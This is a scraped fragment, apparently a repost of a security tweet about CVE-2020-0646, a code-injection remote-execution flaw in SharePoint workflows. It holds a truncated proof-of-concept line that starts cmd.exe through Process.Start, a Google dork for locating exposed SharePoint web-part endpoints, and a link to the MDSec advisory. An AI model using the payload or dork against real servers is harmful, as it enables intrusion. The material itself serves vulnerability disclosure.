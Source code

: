 PoC
CallExternalMethodActivity x:Name="foo" 
....System.Diagnostics.Process.Start("cmd.exe",

Google Dork
.sharepoint.com/_vti_bin/webpartpages/asmx -docs -msdn -mdsec

https://t.co/DRGcSRZ6Co https://t.co/w1OI4ADbbJ
</blockquote>

* https://www.mdsec.co.uk/2020/01/code-injection-in-workflows-leading-to-sharepoint-rce-cve-2020-0646/?fbclid=IwAR0b4QZxdQKVYN-ES62rdt9yN5MMzfgpK7DkdkbIq44Flm-ODiuqzeIglUQ

<table><tr>
<td><img src="pictures/011f699a1b214dc18990dc4cc00616bebf5498782e497a8a398e6c05f2f4d66b.jpg" alt="011f699a1b214dc18990dc4cc00616bebf5498782e497a8a398e6c05f2f4d66b.jpg"></td>
